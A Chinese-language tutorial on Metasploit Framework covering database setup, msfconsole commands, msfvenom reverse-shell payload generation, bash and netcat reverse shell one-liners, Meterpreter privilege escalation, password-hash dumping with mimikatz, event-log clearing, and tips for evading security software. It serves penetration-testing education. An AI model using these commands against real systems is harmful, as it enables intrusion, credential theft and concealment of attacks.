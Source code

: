 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 但是天价. 以下内容均以 Metasploit Framework(MSF) 为例.  

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式(通常是 xml)导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

## 载荷

**别名**: 攻击载荷, 有效载荷.  

MSF 中的载荷(payload)共有以下三种:  

- Singles: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- Stagers: 小巧可靠, 用于建立连接并接收 Stages.
    - bind: 正向连接, MSF 主动尝试与目标中的 stager 建立连接.
    - reverse: 反向连接, 目标中的 stager 尝试与 MSF 连接. 可以绕过部分防火墙规则.
    - https: 伪装成正常 HTTPS 流量进行通讯. 可以绕过部分防火墙规则且更难被探测器识别.
- Stages: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.  

### 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload # 查看载荷, 根据目标进行选择
msfvenom -l format  # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 shell_reverse_tcp 作为载荷并建立连接.  

### 建立连接

使用 handler 来与目标中的 stager 建立连接, 并上传 stage.  

```sh
msf > use exploit/multi/handler
msf > set payload [id/value]
# ... 设置载荷中的参数 ...
msf > set ExitOnSession false # 建立连接后不结束监听
msf > run -j                  # 开始监听并作为后台任务运行, 因为这是一个堵塞操作
```

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 可以动态加载/执行/卸载脚本和插件, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

    - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
    - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
    - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

        1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
        2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

    ```
    [blackarch]
    SigLevel = Optional TrustAll
    Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
    ```

## 拓展

- [Metasploit Documentation](https://docs.metasploit.com/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>
